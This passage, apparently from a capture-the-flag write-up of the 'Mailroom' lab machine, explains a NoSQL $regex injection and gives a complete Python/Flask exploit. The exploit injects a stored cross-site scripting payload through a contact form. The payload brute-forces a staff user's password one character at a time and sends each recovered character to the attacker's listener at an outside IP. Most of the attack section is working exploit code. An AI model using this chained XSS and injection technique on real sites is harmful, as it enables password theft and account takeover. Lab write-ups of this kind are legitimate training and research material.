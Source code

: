 - Store alllowed characters in the `alphabet` varible. I might need to extend the alphabet later.
- Iterate over each chracter in alphabet and make a POST request to http://staff-review-panel.mailroom.htb/auth.php.
- Send the following payload in each POST request : `email=tristan@mailroom.htb&password[$regex]=^{password}'+ alphabet[i] +'.*'`. I already know the email, and for the password i will use the $regex operator. The `{password}` is will be the part of password i already know. So the regex pattern will look like this *^a.\**, *^b.\** and so on. The `^` chracter is improtant, because it makes the regex match the start of string and the `.*` means match everything.
- When the regex pattern matches the stored password, the response from the webapp contains the word "2FA" (You can see that in the above screenshot from Burp), and the script will then connect back to my local server showing the password in the GET request.

Now i just need to create a server that is going to recieve the requests. To do that, i wrote a python webserver in Flask:
```python
import requests
from flask import Flask,request
import string
from urllib.parse import quote

BASE_URL = "http://mailroom.htb"
STAFF_URL = "http://staff-review-panel.mailroom.htb"
RECIEVE_IP = "10.10.14.198"
RECIEVE_PORT = 5000
ALPHABET = string.digits + string.ascii_letters + "@#_-!"

password = ""

def make_request(password):
    data = {
        "email": "",
        "title": "",
    }
    data["message"] =  f"<script>const alphabet = '{{ALPHABET}}';const brute = async () => {{ for (var i = 0; i < alphabet.length; i++){{ const currentChar = alphabet[i]; fetch('{{STAFF_URL}}/auth.php',{{method:'POST', headers: {{'Content-Type': 'application/x-www-form-urlencoded'}},body:'email=tristan@mailroom.htb&password[$regex]=^{{quote(password)}}'+ alphabet[i] +'.*'}}).then( response => response.text()).then(json => {{ if (json.includes('2FA')){{ fetch('http://{{RECIEVE_IP}}:{{RECIEVE_PORT}}/recieve?password={{password}}'+currentChar) }}}})}}}};brute();</script>"  

    requests.post(BASE_URL + "/contact.php",data=data)

app = Flask(__name__)

@app.route("/recieve", methods=["GET"])
def recieve():
    global password
    password = request.args.get("password")
    make_request(password)
    return "Thank you!"

@app.route("/start")
def start():
    make_request("")
    return "Brute force started!"

@app.route("/restart")
def restart():
    make_request(password)
    return f"Brute force restarted! with password: {password}"

app.run("0.0.0.0")
```